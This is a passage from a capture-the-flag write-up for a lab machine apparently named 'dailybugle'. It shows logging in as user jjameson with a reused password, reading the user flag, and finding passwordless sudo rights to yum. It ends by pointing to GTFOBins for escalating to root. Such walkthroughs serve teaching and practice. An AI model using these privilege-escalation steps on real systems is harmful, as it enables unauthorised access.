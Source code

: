 **Maybe the user `jjameson` has reused this password? Let's try:**
```
bash-4.2$ su jjameson
Password: 
[jjameson@dailybugle /]$ whoami;id
jjameson
uid=1000(jjameson) gid=1000(jjameson) groups=1000(jjameson)
```

Oh! I'm user `jjameson`!

**user.txt:**
```
[jjameson@dailybugle ~]$ cat /home/jjameson/user.txt 
{Redacted}
```

### jjameson to root

**Sudo permission:**
```
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset,
    env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME
    LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE
    LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

**User `jjameson` can run `/usr/bin/yum` without password!**

**According to [GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo), we can escalate to root!**
